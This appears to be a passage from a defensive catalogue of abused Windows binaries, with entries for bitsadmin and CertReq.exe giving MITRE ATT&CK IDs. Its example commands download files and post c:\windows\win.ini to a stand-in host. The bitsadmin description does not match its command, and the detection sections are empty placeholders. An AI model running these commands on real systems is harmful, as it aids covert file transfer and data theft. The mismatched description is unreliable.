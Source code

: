  

#### Procedures

|Category|Example Command|Description|
|--------|---------------|-----------|
|Download|`bitsadmin /create 1 bitsadmin /addfile 1 https://live.sysinternals.com/autoruns.exe c:\data\playfolder\autoruns.exe bitsadmin /RESUME 1 bitsadmin /complete 1`|Create a bitsadmin job named 1, add cmd.exe to the job, configure the job to run the target command, then resume and complete the job.|

 

#### Search Queries


> Analytic Goes Here!


 
## CertReq.exe

Used for requesting and managing certificates

#### Metadata

|Details||
|-------|---|
|**MITRE ATT&CK Technique IDs**|<div style="text-align: left"><ul><li>T1105</li></ul></div>|
|**Categories**|<div style="text-align: left"><ul><li>Download</li><li>Upload</li></ul></div>|
|**Relevant Operating Systems**|<div style="text-align: left"><ul><li>Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10</li></ul></div>|
|**File Paths**|<div style="text-align: left"><ul><li>`C:\Windows\System32\certreq.exe`</li><li>`C:\Windows\SysWOW64\certreq.exe`</li></ul></div>|
|**Code Samples**|<div style="text-align: left"><ul><li>None</li></ul></div>|
|**Acknowledgements**|<div style="text-align: left"><ul><li>David Middlehurst (@dtmsecurity)</li></ul></div>|
|**Additional Resources**|<div style="text-align: left"><ul><li>https://dtm.uk/certreq</li></ul></div>|

 

#### Procedures

|Category|Example Command|Description|
|--------|---------------|-----------|
|Download|`CertReq -Post -config https://example.org/ c:\windows\win.ini output.txt`|Save the response from a HTTP POST to the endpoint https://example.org/ as output.txt in the current directory|


 

#### Search Queries


> Analytic Goes Here!


 
## Desktopimgdownldr.exe
